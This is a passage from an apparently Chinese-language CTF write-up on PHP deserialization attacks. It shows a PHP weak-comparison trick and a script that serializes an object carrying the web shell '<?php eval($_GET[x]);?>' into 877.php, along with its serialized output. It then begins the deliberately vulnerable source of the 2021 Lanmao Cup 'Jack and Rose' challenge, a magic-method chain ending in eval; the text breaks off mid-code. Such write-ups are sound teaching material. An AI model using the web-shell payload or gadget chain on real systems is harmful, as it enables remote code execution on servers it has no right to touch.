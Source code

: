 - php弱类型比较`==`，可以用`877.php == 0x3d`使条件成立。
分析了思路，其实要用到的魔术方法不多；不需要`__invoke`、`__sleep`等参数，攻击代码如下：
```php
<?php

class ctfshowvip{
    public $username;
    public $password;
    public function __construct($u, $p){
        $this->username=$u;
        $this->password=$p;
    }
}
$a = new ctfshowvip('877.php', '<?php eval($_GET[x]);?>');
echo serialize($a);
?>
```
运行结果：
```shell
O:10:"ctfshowvip":2:{s:8:"username";s:7:"877.php";s:8:"password";s:23:"<?php eval($_GET[x]);?>";}
```


#### 4. 示例4 2021蓝帽杯半决赛-杰克与肉丝
也是没有找到环境，自己用源码+phpStudy搭建一个，源码如下：
```php
<?php
highlight_file(__file__);     
class Jack    
{
    private $action;    
    function __set($a, $b)
{
        $b->$a();
    }
}
class Love {
    public $var;
    function __call($a,$b)
{
        $rose = $this->var;
        call_user_func($rose);
    }
    private function action(){
        echo "jack love rose";
    }
}
class Titanic{
    public $people;
    public $ship;
    function __destruct(){
        $this->people->action=$this->ship;
    }
}
class Rose{
    public $var1;
    public $var2;
    function __invoke(){
        //if( ($this->var1 != $this->var2) && (md5($this->var1) === md5($this->var2)) && (sha1($this->var1)=== sha1($this->var2)) ){
            eval($this->var1);
        //}
    }
}
if(isset($_GET['love'])){
```